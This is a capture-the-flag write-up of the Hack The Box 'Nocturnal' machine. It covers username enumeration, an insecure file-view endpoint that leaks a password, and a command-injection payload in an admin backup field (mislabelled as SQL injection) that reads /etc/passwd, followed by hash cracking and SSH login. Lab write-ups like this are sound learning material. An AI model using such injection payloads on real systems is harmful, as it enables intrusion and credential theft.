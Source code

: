 ### Write-up: Nocturnal from Hack The Box (Linux, easy machine)

# I started with a very simple nmap scan (nmap -sC -sV @ip):

![htb](https://github.com/user-attachments/assets/32684602-99fa-453d-baea-af0ae210f711)

# Trying to acces port 80 (web app)

I tried accessing the website in my browser, but it did not let me access the file (because of DNS or something like that)

I could only acces the website after changing /etc/hosts file by adding the ip and website link (ip 10.10.10.X for example, and then nocturnal.htb). So make sure to modify your hosts file, otherwise you wont be able to access the website locally!

When I got access to the website I went straight into checking the functionality, I scanned existing names with the python script in the file I attached (test.py). The script scans if the names in the wordlist are used on the web app.

You can run the script with:

```
To run: python3 test.py <cookies_here>
```

And make sure to replace <cookies_here> with the cookies (inspect > storage > local > get the cookie value)

After scanning the names I got back: admin, amanda, tobias.


# Continuing with the information I had found

I found that the website (when authorized) allowed you to access /view.php (which did not give me any information, but it had a custom UI, so it meant something). If I assigned values for user and file, it would show me what user the files had. I did not even have to specify which file. It would tell me if that file existed, and regardless of that answer I could see other files of that user.

So when I went to: 

```http://nocturnal.htb/view.php?user=amanda&file=e.pdf```

I found a file named: "privacy.odt" which was a mail which had a temporary password for amanda.

I tried logging in with the details provided (into the web app), and succesfully logged in!

I then saw that there was a admin panel option for amanda.

# Admin panel

When I went to the admin panel, I saw a field where if I entered a password, it would give me a backup of the files of the web app. So I entered the same login credentials provided from the mail (privacy.odt) and succesfully got the zip.

I analyzed the php files, and could notice that there were many input fields to inject some SQL into. So thats what I did!

# SQL-injection

I started with running this into the backup files field:

```password=test%0Acat%09/etc/passwd%09>%09../uploads/passwd.txt```

I got this back:

```
sh: 2: ../uploads/passwd.txt: not found
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
ispapps:x:1001:1002::/var/www/apps:/bin/sh
ispconfig:x:1002:1003::/usr/local/ispconfig:/bin/sh
smmta:x:115:120:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:116:121:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
_laurel:x:997:997::/var/log/laurel:/bin/false
```

Which means that the commands were working!

After running some other commands I got access to the userIds, and md5 hashes of the users. I decrypted the hashes with crackstation and got access to tobias account.

# Access to tobias account

I continued in a new terminal with the following:

```
ssh tobias@ip
```

and I entered the password, and BOOM! I have access to his files (or in other words, I have access to user.txt which contains the user flag!)

I did this with ls and then cat > user.txt!





After I got the user.txt I forgot to document how I got the root flag, but I will give you a tip!

Tip: ISPConfig panel

Very fun Machine on Hack The Box!
Hope this helps!
